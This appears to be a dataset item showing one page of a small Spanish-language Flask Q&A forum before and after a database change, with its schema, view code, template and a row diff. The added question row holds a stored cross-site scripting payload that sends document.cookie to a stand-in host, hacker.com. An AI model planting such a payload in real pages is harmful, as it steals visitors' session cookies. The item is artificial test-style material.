
The page /show_question?id=6 on the database as committed earlier.

The same page on the database as committed later.
### tables this page shows
CREATE TABLE Questions (
  id INTEGER PRIMARY KEY, 
  author VARCHAR(50), 
  title VARCHAR(200), 
  body TEXT, 
  time datetime, 
  tags VARCHAR(200)
);

### coladero.py (the view)
@app.route('/show_question', methods=['GET'])
def show_question():
    ident = request.args.get('id')
    conn = sqlite3.connect(DBPATH)
    cur = conn.cursor()
    qbody1 = """SELECT author,title,time,tags,body
                FROM Questions
                WHERE id=:ident"""
    qbody2 = """SELECT author,time,body
                FROM Replies
                WHERE question_id=:ident"""
    params = {'ident': ident}
    cur.execute(qbody1, params)
    question = cur.fetchone()
    cur.execute(qbody2, params)
    replies = list(cur.fetchall())
    conn.close()
    return render_template("message_detail.html", q=question, replies=replies, ident=ident)

### templates/message_detail.html (shortened to what this page needs)
<!DOCTYPE html>
<html>
	<head>
	</head>
	<body>
		<header class="title"><h1>El Coladero</h1></header>
		<header class="title"><h2>Foro de preguntas y respuestas</h2></header>
    <form action="search_question">
		Búsqueda por etiqueta: <input type="search" name="tag"><input type="submit" value="Buscar">
		</form>
		<br/>
		{% if q is none %}
          <h1>No se ha encontrado ninguna pregunta con identificador '{{ident}}'</h1>
		{% else %}
		  <table class="question">
			  <tr>
		      <td>Título:</td>
		      <td class="title">{{q[1]}}</td>
		    <tr>
		    <tr>
		      <td>Autor:</td>
		      <td>{{q[0]}}</td>
		    <tr>
		    <tr>
		      <td>Fecha:</td>
		      <td>{{q[2]}}</td>
		    <tr>
		    <tr>
		      <td>Etiquetas:</td>
		      <td>{{q[3]}}</td>
		    <tr>
		    <tr>
		      <td>Mensaje:</td>
		      <td>{{q[4]}}</td>
		  </table>
		  <br/><br/>
	    {% endif %}
		<br/><br/>
		<form class="contestar" action="insert_reply" method="POST">
			<label for="author">Autor:</label>
	        <input type="text" name="author"><br/>
			<label for="body">Respuesta:</label>
	        <textarea rows="4" cols="50" name="body"></textarea><br/>
	        <input type="submit" value="Contestar">
		</form>
	</body>
</html>

Rows that differ between the two databases and show on the page:
added Questions: title "hackkkk", author "script", time "2022-11-24 14:44:28", tags "hackckckc", body "<script> i=newImage(); i.src=\"http://hacker.com/log_cookie?cookie=\"+ escape(document.cookie) <\\script>"
Other text that changed with them:
{{ ident }}: "6" → (not shown)
text no longer shown: "No se ha encontrado ninguna pregunta con identificador ' '"
text now shown: "Título: Autor: Fecha: Etiquetas: Mensaje:"
